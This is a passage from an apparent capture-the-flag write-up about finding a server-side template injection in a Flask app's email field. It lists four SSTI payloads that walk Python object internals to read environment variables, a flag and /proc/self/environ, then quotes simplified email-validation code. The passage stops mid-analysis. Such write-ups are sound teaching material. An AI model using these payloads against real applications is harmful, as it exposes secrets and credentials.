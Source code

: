 Again the username is sanitized. However, the email is not checked for a template injection and is populated in the unsafe way that we saw earlier. The only requirement is that it has to pass the `Email()` validation. Let's try some SSTI payloads found across the internet (with the ultimate goal to dump environment variables)

```txt
1. {{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}

2. {{config.items()}}

3. {{ [].class.base.subclasses() }}

4. {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/proc/self/environ").read() }}
```

But none of them worked. We always get "Invalid email address"

![invalid-email.png](writeup-resources/invalid-email.png)

Hmm. This has to do with how the email validation is done, so let's check the code from the [flask library](https://github.com/JoshData/python-email-validator/blob/main/email_validator/__init__.py#L261)

```python
# simplified version
def validate_email(email):
    parts = email.split('@')
    if len(parts) != 2:
        raise EmailSyntaxError("must have exactly one @-sign.")
    validate_email_local_part(parts[0])
    validate_email_domain_part(parts[1]) # more strict than part[0] validation

def validate_email_local_part(local):
    if len(local) == 0:
        raise EmailSyntaxError("There must be something before the @-sign.")
    if len(local) > 64:
        raise EmailSyntaxError("The email address is too long before the @-sign")
    
    ATEXT = r'a-zA-Z0-9_!#\$%&\'\*\+\-/=\?\^`\{\|\}~'
    DOT_ATOM_TEXT='[' + ATEXT + ']+(?:\\.[' + ATEXT + ']+)*'
```